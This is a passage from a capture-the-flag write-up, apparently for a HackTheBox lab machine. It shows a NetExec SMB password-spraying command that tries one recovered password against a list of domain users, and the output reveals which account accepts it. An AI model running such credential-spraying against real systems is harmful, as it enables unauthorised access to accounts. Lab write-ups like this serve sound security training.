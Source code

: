 
Here is for full usernames list.

### şeytan-yoklaması

i will check if some other user use this password as password

```bash
➜  Puppy nxc smb DC.puppy.htb -u users.txt -p 'KingofAkron2025!' --continue-on-success
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\Administrator:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\Guest:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\krbtgt:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\ant.edwards:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\adam.silver:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\jamie.williams:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\steph.cooper:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\steph.cooper_adm:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.10.11.70     445    DC               [-] PUPPY.HTB\:KingofAkron2025! STATUS_LOGON_FAILURE
```

### shares

lets check shares

![alt text](../assets/images/puppy2.png)
